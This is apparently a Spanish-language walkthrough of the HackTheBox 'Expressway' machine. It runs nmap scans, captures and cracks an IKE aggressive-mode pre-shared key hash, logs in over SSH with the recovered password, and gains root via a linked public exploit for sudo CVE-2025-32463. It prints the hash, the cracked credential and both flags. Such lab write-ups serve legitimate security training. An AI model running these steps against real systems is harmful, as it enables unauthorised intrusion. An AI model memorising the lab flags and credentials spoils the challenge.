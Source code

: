 ```yaml
---
hidden: true
icon: flag
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Expressway HackTheBox (Easy)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-23 06:51 EDT
Nmap scan report for 10.10.11.87
Host is up (0.031s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 8 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.34 seconds
```

Veremos solamente un puerto `SSH` sin ninguna web ni nada, por lo que vamos a probar a realizar un escaneo por `UDP` a ver si hay algo oculto por ahi.

```shell
nmap -sU --min-rate 1000 --top-ports 100 <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-23 07:06 EDT
Nmap scan report for 10.10.11.87
Host is up (0.033s latency).
Not shown: 94 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
500/udp   open   isakmp
515/udp   closed printer
996/udp   closed vsinet
31337/udp closed BackOrifice
49186/udp closed unknown
49201/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.54 seconds
```

Veremos que el servicio `500` esta abierto, vamos a obtener mas informacion de dicho puerto a ver que tiene, pero de primeras ya sabemos que es un **ISAKMP (Internet Security Association and Key Management Protocol)** es usado principalmente por **VPNs IPSec**.

```shell
nmap -sU -p 500 -sV --script ike-version <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-23 07:08 EDT
Nmap scan report for 10.10.11.87
Host is up (0.040s latency).

PORT    STATE SERVICE VERSION
500/udp open  isakmp?
| ike-version: 
|   attributes: 
|     XAUTH
|_    Dead Peer Detection v1.0

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.07 seconds
```

La caracteristicas que estamos viendo son las siguientes:

**XAUTH (Extended Authentication)** - Permite autenticación adicional **Dead Peer Detection v1.0** - Mantiene la conexión activa

Vamos a comprobar si acepta un `Aggressive Mode` realizando una peticion de esta forma:

```shell
ike-scan -A --id=test <IP>
```

Info:

```
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Aggressive Mode Handshake returned HDR=(CKY-R=6bef8cd3620d6de4) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)

Ending ike-scan 1.9.6: 1 hosts scanned in 1.495 seconds (0.67 hosts/sec).  1 returned handshake; 0 returned notify
```

Vemos que si esta funcionando y estamos viendo informacion muy valiosa como la siguiente:

```
Encryption: 3DES
Hash: SHA1
Group: 2 (modp1024)
Auth: PSK (Pre-Shared Key)
ID Type: ID_USER_FQDN
ID Value: ike@expressway.htb
VIDs: XAUTH, Dead Peer Detection
```

Hemos descubierto un `dominio` llamado `expressway.htb`, vamos añadirlo a nuestro archivo `hosts` de esta forma:

```shell
nano /etc/hosts

#Dentro del nano
<IP>           expressway.htb
```

Lo guardamos y probamos a realizar otra peticion de esta forma para intentar capturar el `hash PSK`.

## Escalate user ike

```shell
ike-scan -A --id=expressway.htb --pskcrack=expressway.psk <IP>
```

Ahora si leemos el archivo...

> expressway.psk

```
b7a3ba72d4fe5c12243cb6ce31108c01531bc022904f66548432d5ae93aa9917e02925c4ca59c0b6270ead9d098185a54ee08bb46d3cd3b5656744f8d50f871a737858550d1eea3ddd1f4ca67b0e60bb1b18fea87a16fa99ad0b354656418000e555c7747adcb1b0d6fc79f74a7310f9789a5d1ea8384cc199d988127542bae6:51386faaab8dfba44b46fca5c217dd4901aae0183150bcbb4fca93697fefcda2f920acf2e6dd702b9f0ff27eb3adef85df40dc280edab7c177a318ca637320bf5f3d310b7b202c44224bcdb7c103b82217cc260b4622061e27dc6c375ec2036096cd26ca2e3923cdaa745cde1a0085974563843293ae11868c87a5327e2921dc:5ee610efba11daa3:843d925eeb2fb02c:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:7269395bf6d92dbf180d545a3de8c0663c691477:68fdeda0c36ce84889ff4dd1ebc259fe98b908bd47cd99abbbd1c291949e7050:f1e7585855cf7f8b9622fd9753b91b9b27e3d949
```

Vemos que lo hemos capturado de forma correcta, ahora vamos a probar a `crackearlo`.

```shell
psk-crack -d <WORDLIST> expressway.psk
```

Info:

```
Starting psk-crack [ike-scan 1.9.6] (http://www.nta-monitor.com/tools/ike-scan/)
Running in dictionary cracking mode
key "freakingrockstarontheroad" matches SHA1 hash f1e7585855cf7f8b9622fd9753b91b9b27e3d949
Ending psk-crack: 8045040 iterations in 7.548 seconds (1065888.40 iterations/sec)
```

Vemos que ha funcionado, tenemos una contraseña y tambien un usuario llamado `ike` del `dominio`, vamos a probar si funciona por `SSH`.

### SSH

```shell
ssh ike@<IP>
```

Metemos como contraseña `freakingrockstarontheroad`...

```
Last login: Wed Sep 17 10:26:26 BST 2025 from 10.10.14.77 on ssh
Linux expressway.htb 6.16.7+deb14-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.16.7-1 (2025-09-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Sep 23 12:31:36 2025 from 10.10.14.98
ike@expressway:~$ whoami
ike
```

Con esto veremos que ya estaremos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
dcde31dcd467cd645bc38a6787e77e0b
```

## Escalate Privileges

Si listamos los grupos a los que pertenecemos, veremos lo siguiente:

```
uid=1001(ike) gid=1001(ike) groups=1001(ike),13(proxy)
```

Vemos que somos del grupo `proxy`, por lo que es muy interesante, si buscamos que pertenece a dicho grupo, no veremos gran cosa.

Si vemos la version de `sudo` que hay en el sistema.

```shell
sudo -V
```

Info:

```
Sudo version 1.9.17
Sudoers policy plugin version 1.9.17
Sudoers file grammar version 50
Sudoers I/O plugin version 1.9.17
Sudoers audit plugin version 1.9.17
```

Veremos que es una version vulnerable, si buscamos informacion veremos que tiene un `CVE` asociado llamado `CVE-2025-32463`, encontraremos un `exploit` en la siguiente `URL`.

[CVE-2025-32463 PoC](https://github.com/kh4sh3i/CVE-2025-32463)

Si ejecutamos dicho `exploit` de esta forma en la maquina victima:

```shell
chmod +x exploit.sh
./exploit.sh
```

Info:

```
woot!
root@expressway:/# whoami
root
root@expressway:/# id
uid=0(root) gid=0(root) groups=0(root),13(proxy),1001(ike)
```

Con esto veremos que ya seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
799ac55d38a22197ceda662333d52cf4
```

